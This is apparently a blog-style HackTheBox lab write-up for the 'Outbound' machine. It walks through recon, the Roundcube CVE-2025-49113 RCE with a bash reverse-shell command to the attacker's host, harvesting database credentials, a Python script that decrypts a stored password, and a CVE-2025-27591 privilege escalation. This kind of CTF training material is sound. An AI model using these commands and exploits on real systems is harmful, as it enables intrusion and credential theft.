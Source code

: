 ```yaml
---
title: "HTB Outbound - pwn"
date: 2025-07-18
categories: ["HackTheBox", "Writeup"]
tags: ["Roundcube", "CVE", "RCE", "Privesc", "First-Blood"]
---
```


solved at 2025-07-15
## First Things First - Recon Time

started with the usual nmap scan 

```bash
nmap -sV -sC -T4 -Pn 10.10.11.77 -oN nmap_scan
```

got back:

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 
80/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://mail.outbound.htb/
```

okay so we got ssh and some web service that redirects to `mail.outbound.htb`. quick hosts file update:

```bash
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

## Nuclei 🔥

before even opening burp i decided to throw nuclei at it :

```bash
nuclei -u http://mail.outbound.htb/
```

AND BOOM:

```
[CVE-2025-49113:version_check] [http] [critical] http://mail.outbound.htb/ ["Roundcube Version: 1.6.10"]
```


I looked it up and CVE-2025-49113 is some post-auth RCE in Roundcube via PHP object deserialization. so we can exploit it as long as we can login 

and guess what? we already have creds! tyler:LhKL1o9Nm3X2

## Getting That Shell 💀

i searched " CVE-2025-49113 PoC " and found the exploit on github (thanks hakaioffsec):

```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit
```

set up my listener on another terminal:

```bash
nc -lvnp 4444
```

fired the exploit:

```bash
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/MY-HTB-IP/4444 0>&1'"
```

```
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
```

and just like that... **WE'RE IN!** 🎯

```bash
www-data@mail:/$ whoami
www-data
```

## From www-data to Tyler

switched to tyler since we had the password:

```bash
su tyler
# Password: LhKL1o9Nm3X2
```

## Database Hunting 🕵️

started poking around the roundcube config files:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

found some juicy stuff:

```php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

database creds! let's see what's in there:

```bash
mysql -u roundcube -pRCDBPass2025 -e 'USE roundcube; SELECT * FROM users;'
```

found 3 users: jacob, mel, and tyler. but the interesting part was the session table:

```bash
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e 'use roundcube;select * from session;' -E
```

there's this massive base64 blob in the vars column. decoded it and found jacob's encrypted password: `L7Rv00A8TuwJAr67kITxxcSgnIk25Am/`

## Time to Decrypt 🔐

remembered the DES key from earlier. we can write a python script and use it to decrypt the password :

```python
from base64 import b64decode
from Crypto.Cipher import DES3

enc_b64 = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
des_key = b'rcmail-!24ByteDESkey*Str'

data = b64decode(enc_b64)
iv = data[:8]
ciphertext = data[8:]

cipher = DES3.new(des_key, DES3.MODE_CBC, iv)
plaintext = cipher.decrypt(ciphertext)

pad_len = plaintext[-1]
if isinstance(pad_len, str):
    pad_len = ord(pad_len)
plaintext = plaintext[:-pad_len]

print("Decrypted:", plaintext.decode())
```

ran it and got: 
```bash
python decrypt.py
Decrypted: 595mO8DmwGeD
```

```

switched to jacob:

```bash
su jacob
# Password: 595mO8DmwGeD
```

## Reading Jacob's Mail 📧

checked out jacob's mailbox:

```bash
cat ~/mail/INBOX/jacob
```

found two emails. first one from tyler:

```
Subject: Important Update
Password: gY4Wr3a1evp4
```

second one from mel talking about some resource monitoring tool called "Below"

## SSH Time

used the new password to ssh:

```bash
ssh jacob@10.10.11.77
# Password: gY4Wr3a1evp4
```

grabbed the user flag:

```bash
cat ~/user.txt
```

**USER FLAG ACQUIRED!** 🚩

## Privesc - The Fun Part

found an exploit.py file in jacob's home directory. looked at it and  found out its an exploit for CVE-2025-27591 targeting the Below monitoring tool.

checked the glibc version:

```bash
ldd --version
# 2.39 - vulnerable!
```

ran the exploit:

```bash
python3 exploit.py
```

```
[*] Checking for CVE-2025-27591 vulnerability...
[+] /var/log/below is world-writable.
[+] Target is vulnerable.
[*] Starting exploitation...
[+] Payload appended successfully.
root@outbound:/home/jacob#
```

**NOW WE'RE ROOT!** 🔥🔥🔥

```bash
cat /root/root.txt
```

**Machine ROOTED!** 👑

---


honestly this was way easier than i expected.

might do more writeups if people actually read this. next time gonna try a harder machine.

peace out ✌️

_ps: if you're reading this and i haven't posted anything in months, remind me cuz i probably got distracted by something else lmao_

BTW THIS WILL BE POSTED AFTER THE MACHINE IS RETIRED
